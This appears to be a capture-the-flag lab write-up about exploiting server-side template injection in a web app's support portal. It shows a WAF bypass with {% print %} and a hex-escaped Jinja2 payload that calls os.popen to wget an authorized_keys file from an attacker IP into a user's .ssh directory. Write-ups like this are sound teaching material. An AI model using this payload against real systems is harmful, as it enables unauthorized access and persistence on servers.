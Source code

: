 # Login into Admin Panel

![[Pasted image 20210530215020.png]]

## View Messages

Exploring the application we can view messages and support.

![[Pasted image 20210530215106.png]]

This is pointing to the path /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal 

and it seems there are some vulnerabilities there.

So let's try to navigate there

![[Pasted image 20210530215217.png]]

First thing we see there is a WAF on Contact field and XSS on Message.

XSS Is rabbit hole.

## Injection on Contact field

Since the inital page was vulnerable to SSTI let's try it here.

{{ config }}

But there is WAF blocking {{ }}. But wait.. we can also do something like: `{% print("foobar") %}`


It seems that this is also vulnerable to SSTI, as we can see foobar printed on the contact name

![[Pasted image 20210530215843.png]]

Knowing that we can either start a reverse shell or upload our public key and jump into ssh directly, since ssh is available on the server.

We need to escape WAF Characters, so the final payload will look like:

``` {% print(request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("wget 10\x2e10\x2e14\x2e147/authorized\x5fkeys -O /home/chiv/\x2essh/authorized\x5fkeys")["read"]()) %}```